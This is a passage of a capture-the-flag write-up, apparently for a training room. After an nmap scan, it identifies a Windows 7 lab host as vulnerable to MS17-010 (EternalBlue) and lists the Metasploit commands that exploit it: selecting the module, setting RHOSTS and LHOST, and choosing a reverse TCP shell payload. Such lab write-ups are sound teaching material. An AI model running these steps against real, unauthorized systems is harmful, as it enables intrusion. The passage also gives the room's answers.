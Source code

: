 ```
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-06T06:07:27-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul  6 13:07:33 2022 -- 1 IP address (1 host up) scanned in 91.78 seconds
```  
**How many ports are open with a port number under 1000 ?**  
Answer : 3

**What is this machine vulnerable to ? (Answer in the form of: ms??-???, ex: ms08-067)**  
We see that port 139 and 445 are open, it means that we can communicate with the SMB protocol to the machine. You can see [here](https://fr.wikipedia.org/wiki/Server_Message_Block) what is this protocol and its purpose.
If we search for "Windows 7 SMB vulnerability", we find a vulnerability named [EternalBlue](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/).
We can now answer this question : ms17-010

## Gain access
For this task, we are going to use metasploit (like asked by the author of this room).
To start [Metasploit](https://www.metasploit.com/), we have to use ```msfconsole``` in a terminal.  
![alt text](https://i.imgur.com/d8hRjPL.png)  


**Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)**  
To find an exploit on msfconsole, we use ```search```, so here, we use ```search EternalBlue```. It gives us a list of exploits, we will use the first one of the list.   
![alt text](https://i.imgur.com/gr1Cypk.png)  


We can now answer the question : exploit/windows/smb/ms17_010_eternalblue  
To use this exploit, we just need to type ```use 0```, to use the exploit shown at index 0 on the list. When we select an exploit that needs a payload, msfconsole will automatically select a default payload.  

**Show options and set the one required value. What is the name of this value ? (All caps for submission)**  
To show options of the current exploit, we just need to type ```show options```, it's easy to use right ?
![alt text](https://i.imgur.com/Q9jMA6E.png)  

The answer is : RHOSTS (But we also have to change the LHOST option to use tun0 interface instead of eth0 interface).
So we use ```set RHOSTS 10.10.123.84``` to specify the target, and ```set LHOST 10.X.X.X``` with our own address on tun0 interface to get the reverse shell.

It is asked to use a specific payload with ```set payload windows/x64/shell/reverse_tcp```.  
Now we can run the exploit by using ```run```.
![alt text](https://i.imgur.com/jcCagRL.png)  
